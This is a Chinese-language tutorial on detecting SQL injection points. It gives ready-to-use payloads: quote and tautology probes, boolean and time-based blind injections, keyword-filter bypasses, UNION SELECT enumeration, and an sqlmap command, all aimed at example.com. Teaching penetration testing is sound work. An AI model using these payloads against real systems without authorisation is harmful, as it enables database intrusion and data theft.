 # 如何判断SQL注入点

以下是系统性的注入点判断方法和操作步骤：

## 1. 识别输入点
**检测位置**：

> URL查询参数（如`?id=1`）
>
> 表单输入字段（登录框/搜索框）
>
> HTTP头部（Cookie/User-Agent/Referer）
>
> REST API参数（JSON/XML数据）

## 2. 初步探测
### （1）单引号测试
```http
http://example.com/?id=1'
```

预期结果：

> 数据库错误（如MySQL的"语法错误"）
>
> 500服务器错误
>
> 页面布局异常

### （2）逻辑测试

```http
正常情况：http://example.com/?id=1
恒真条件：http://example.com/?id=1' AND '1'='1
恒假条件：http://example.com/?id=1' AND '1'='2
```

对比观察：

> 恒真条件返回正常页面
>
> 恒假条件返回空白/错误页面

## 3. 参数类型判断

### （1）数字型参数

```http
原始请求：http://example.com/?id=1
修改为：http://example.com/?id=1+1
```

判断依据：

> 若返回`id=2`的结果则为数字型
>
> 支持运算表达式（如3-2/5*1）

### （2）字符型参数

```http
原始请求：http://example.com/?id=user
修改为：http://example.com/?id=user'||'test
```

判断依据：

> 返回`usertest`相关结果
>
> 需要闭合引号（'或"）

## 4. 注释符验证

```sql
MySQL：--+ 或 #
MSSQL：--
Oracle：--
```

**测试用例**：

```http
http://example.com/?id=1'--+
http://example.com/?id=1' ORDER BY 3#
```

## 5. 盲注检测

### （1）布尔型检测

```http
正常：http://example.com/?id=1' AND 1=1--+
异常：http://example.com/?id=1' AND 1=2--+
```

判断方法：

> 对比两个请求的响应差异
>
> 检查页面元素/内容长度变化
>
> ### （2）时间型检测
>

```http
MySQL：http://example.com/?id=1' AND SLEEP(5)--+
MSSQL：http://example.com/?id=1'; WAITFOR DELAY '0:0:5'--
```

判断标准：

> 响应时间显著增加（≥5秒）

## 6. 过滤规则测试

### （1）关键字绕过

```http
大小写混合：hTtp://example.com/?id=1' uNIoN sELecT 1,2,3--+
内联注释：http://example.com/?id=1'/*!UNION*/SELECT 1,2,3--+
```

### （2）特殊字符绕过

```http
URL编码：%27 → '，%20 → 空格
双重编码：%2527 → '，%253C → <
```

## 7. 联合查询验证

```http
步骤1：确定字段数
http://example.com/?id=1' ORDER BY 5--+

步骤2：验证回显位置
http://example.com/?id=-1' UNION SELECT 1,2,3--+
```

成功标志：

> 页面显示数字2或3的位置
>
> 可在数字位插入SQL函数测试（如version()）

## 8. 工具辅助验证

```bash
使用sqlmap检测：
sqlmap -u "http://example.com/?id=1" --batch --level=3
```

关键输出：

> 存在可注入参数标识
>
> 数据库类型确认

![Snipaste_2025-04-19_12-48-05](./assets/images/Snipaste_2025-04-19_12-48-05.png)

```
graph TD
A[开始] --> B{识别输入点}
B --> |成功| C[单引号测试]
B --> |失败| Z[结束]
C --> D{是否报错}
D --> |是| E[确认字符型注入]
D --> |否| F[逻辑测试]
F --> G{页面变化}
G --> |有差异| H[存在注入漏洞]
G --> |无差异| I[尝试盲注测试]
I --> J{时间延迟/布尔结果}
J --> |存在差异| H
J --> |无差异| Z
```

